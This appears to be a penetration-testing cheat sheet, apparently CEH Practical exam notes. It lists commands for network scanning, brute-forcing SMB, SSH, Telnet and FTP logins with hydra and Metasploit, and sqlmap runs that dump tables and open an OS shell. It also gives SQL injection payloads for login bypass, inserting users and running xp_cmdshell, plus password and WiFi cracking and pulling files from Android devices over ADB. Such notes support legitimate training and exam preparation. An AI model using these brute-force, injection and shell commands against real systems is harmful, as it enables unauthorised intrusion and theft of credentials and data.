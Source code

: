 # Scanning

## netdiscover
```console
netdiscover -r x.x.x.1/24
```
## nmap
```console
nmap -sP x.x.x.1/24                 
nmap -sn x.x.x.1/24
nmap -p 389 -T4 -A -v --script ldap-rootdse nnn.nnn.nnn.nnn/nn
nmap --script ftp-brute -p 21 <host>
Nmap -Pn -p 3389 target > rdp  // grep -B 5 open rdp
Nmap -Pn -p 3306 target > mysql // grep -B 5 open mysql
```

==== Crack SMB credentials ====

1) hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb

2) Metasploit

For Cracking SMB Password:
•	we need to make folder -> store wordlist into that -> run msf from that folder | This process makes your work even better and smooth.
•	>msfconsole .
•	>use auxiliary/scanner/smb/smb_login
•	>show option | To get an idea of what to set on
•	>set PASS_FILE ./ROKYOU.TXT
•	>set rhost {target IP address} | notes :- rhost means remote host
•	>set SMBUser name [of the user] | (generally Administrator is username)
•	>run

=== Bruteforce SSH, TELNET, FTP  ===

hydra -l username -P passlist.txt x.x.x.x ssh
hydra -l admin -P passlist.txt -o test.txt x.x.x.x telnet

hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x

•	If the service isn't running on the default port, use -s
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x -s 221

	
•	Used to download the specific file from FTP to attacker or local machine
get flag.txt ~/Desktop/filepath/flag.txt


==== Vulnerability Scanning ====

1) Nessus

Nessus runs on https[:]//localhost[:]8834

2) nikto -h 

===== Hidden text ====

1) snow -C -p "magic" readme2.txt

2) steghide 

==== WIRESHARK ====



To find DOS (SYN and ACK) : 
•	tcp.flags.syn == 1 , tcp.flags.syn == 1 and tcp.flags.ack == 0

To find Wireshark DOS attack:
•	statistic -> IPv4 statistic -> source and destination address

View Flood attack on victim via Wireshark 
•	| use filter tcp.port=21


https://www.comparitech.com/net-admin/wireshark-cheat-sheet/

====== SQL ======

SQLMAP Extract DBS
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs

Extract Tables
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables

Extract Columns
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns

Dump Data
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump

OS Shell to execute commands
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell

Login bypass
•	blah' or 1=1 --

Insert data into DB from login
•	blah';insert into login values ('john','apple123');

Create database from login
•	blah';create database mydatabase;

Execute cmd from login
•	blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --


=== PASSWORD CRACKING ===

john --single --format=md5crypt crack.txt

=== WIFI ENCYRPTION CRACKING ===

aircrack-ng -w rockyou.txt capture-01.cap


=== VERACRYPT ===


=== CUSTOM WORDLIST ===

=== MOBILE ===

ADB
To Install ADB
apt-get update
sudo apt-get install adb -y
adb devices -l
Connection Establish Steps
adb connect x.x.x.x:5555
adb devices -l
adb shell  
To navigate
pwd
ls
cd Download
ls
cd sdcard
Download a File from Android using ADB tool
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop

== resources ==

https://github.com/nirangadh/ceh-practical/blob/main/module03-Scanning-Networks.txt
https://github.com/Samson-DVS/CEH-Practical-Notes/tree/main

